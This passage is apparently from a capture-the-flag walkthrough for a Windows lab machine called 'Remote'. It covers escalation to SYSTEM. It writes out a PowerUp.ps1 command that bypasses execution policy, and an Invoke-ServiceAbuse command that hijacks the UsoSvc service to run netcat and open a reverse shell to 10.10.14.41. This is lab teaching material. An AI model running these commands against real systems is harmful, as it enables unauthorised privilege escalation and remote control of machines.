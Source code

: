 There are a couple paths to root. The easiest is 

<h5 align="left">Method 1:</h5>

Upload the powershell script *PowerUp.ps1* (using the same technique we uploaded netcat with) and running it with

```
powershell -exec bypass -command "& {import-module .\powerup.ps1; invoke-allchecks}"
```

![powerup](/assets/img/walkthroughs/remote_powerup.png)

We see the service permisions on UsoSvc are exploitable, and all we have to do is simply run the function it suggests using the same nc.exe we uploaded earlier to get a system shell

```
powershell -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-ServiceAbuse -ServiceName UsoSvc -Command 'c:\Users\Public\nc.exe 10.10.14.41 1234 -e cmd.exe'}"
```

![root1](/assets/img/walkthroughs/remote_root1.png)
